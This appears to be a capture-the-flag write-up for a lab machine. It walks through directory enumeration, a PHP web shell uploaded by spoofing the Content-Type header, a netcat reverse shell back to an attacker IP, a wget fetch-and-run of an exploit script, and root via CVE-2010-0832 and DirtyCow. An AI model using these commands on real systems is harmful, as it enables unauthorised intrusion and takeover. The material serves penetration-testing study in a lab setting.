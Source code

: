 #### Enumeration
- Open Ports `22,80`
- Webpage shows default `apache` web page
- Directory Enumeration on the webpage reveals hidden `torrent` directory
- Further enumeration of the newly found `torrent` directory shows much more files
- In the torrent section of the webpage, an upload functionality is present which requires an account to upload things
- Creating an account and uploading the torrent files doesn't seem interesting

#### Obtaining Shell
##### File Upload 

- In the uploading `screen-shot` page, the web page is excepting users to upload a image file
- If the upload functionality is handled with no cation, a php can be uploaded and executed
- Creating a crafted php.php file and changing the `Content-Type: application/php to Content-Type: image/png` uploads the malicious png file
- In the directory enumeration process, an directory named `uploads` is found and can be used to look for the uploaded files
- User flag is found in `home/george/user.txt`

#### PrivEsc

- Looking at all the files in the `george` 's  home directory, `motd.legal-displayed` is found in the .cache directory
- With the help of `CVE-2010-0832` MOTD file tampering, root shell is obtained

#### DirtyCow Method:

- As this kernal timeline is 2009 which is vulnerable to dirty cow
- Download the source from `https://dirtycow.ninja`, complie and run the exploit to obtain root shell

#### Commands:

**Generating malicious png.php file**
```bash
# creating a simple php reverse shell will image extension
echo '<?php echo system($_GET[‘cmd’]); ?>' > shell.png.php
```

**Obtaining Shell**
```bash
# upload the shell.png.php file in the edit page
# intercept the request and change its content type from application/php to image/png
# start the nc listener on the hacking machine
nc -lvnp 1234

# access the uploaded png.php file to obtain reverse shell
curl 10.10.10.6/torrent/upload/shell.php?cmd=nc -e /bin/bash 10.10.10.10 1234
```

**Listing all files**
```bash
# ls -la is a common one
ls -lAR /home/george

# obtain interactive shell with python
python -c 'import pty; pty.spawn("/bin/bash");'

# transfer the file to the popcorn machine
wget http://10.10.10.10/1234/14399.sh 

# Provide execute permissions and run the script to obtain root
./14399.sh
```

**DirtyCow Method**
```bash
# compile the dirty cow source
gcc -pthread dirty.c -o dirty -lcrypt

# give execution permissions
chmod +x dirty 

# run the exploit
./dirty 

# su as firefart with the password you specified to obtain root shell
```
